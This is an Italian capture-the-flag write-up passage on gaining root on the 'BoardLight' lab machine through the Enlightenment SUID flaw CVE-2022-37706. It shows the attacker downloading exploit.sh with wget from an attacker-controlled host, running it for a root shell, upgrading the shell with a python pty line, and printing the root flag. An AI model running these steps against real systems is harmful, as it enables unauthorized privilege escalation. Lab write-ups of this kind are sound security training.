 Cercando su google per [enlightenment suid exploit ](https://www.google.it/search?q=enlightenment+suid+exploit&sca_esv=e9f3e6ede1937afe&sxsrf=ADLYWIJIei7RIlFIWJ78VBhqSnwvYyv1hQ%3A1722856547238&ei=Y7SwZuSfDo-oi-gP_pyS0AY&oq=enlightenment%C2%A0&gs_lp=Egxnd3Mtd2l6LXNlcnAiD2VubGlnaHRlbm1lbnTCoCoCCAEyBBAjGCcyDBAjGIAEGBMYJxiKBTIKEAAYgAQYQxiKBTIEEAAYAzIKEAAYgAQYFBiHAjIQEC4YgAQYFBiHAhjHARivATIKEAAYgAQYQxiKBTIKEAAYgAQYQxiKBTIFEAAYgAQyBRAAGIAESIomUOQHWOQHcAF4AJABAJgBYaABsgGqAQEyuAEDyAEA-AEBmAICoAJ5wgIKEAAYsAMY1gQYR5gDAIgGAZAGCJIHAzEuMaAH6g8&sclient=gws-wiz-serp) troviamo [questo exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) relativo alla **CVE-2022-37706** che sembra fare al caso nostro. 
La scarichiamo e vediamo come procedere

Stando a quanto riportato, la vulnerabilità deriva da un'errata gestione dei permessi utente nei file in Enlightenment.
Il software Enlightenment contiene codice che manipola file di configurazione o temporanei senza verificare adeguatamente i permessi di accesso. Alcune delle operazioni che Enlightenment esegue sui file vengono fatte con privilegi elevati, ma senza le necessarie verifiche di sicurezza. Di conseguenza, un utente può sfruttare questa lacuna per eseguire comandi o script con privilegi più alti di quelli concessi normalmente.

non ci resta che scaricare l'exploit sul target ed eseguire 

```bash
larissa@boardlight:/tmp$ wget http://10.10.14.49:80/exploit.sh
--2024-08-05 14:19:19--  http://10.10.14.49/exploit.sh
Connecting to 10.10.14.49:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                                 100%[========================================================================================================================================>]     709  --.-KB/s    in 0.001s

2024-08-05 14:19:19 (680 KB/s) - ‘exploit.sh’ saved [709/709]

larissa@boardlight:/tmp$ chmod +x exploit.sh
larissa@boardlight:/tmp$ ./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

facciamo upgrade della shell per avere un full tty e ci prendiamo la nostra root flag

```bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@boardlight:/tmp# cat /root/root.txt
f444f296785decdafe0476be45e1f5a6
root@boardlight:/tmp#
```

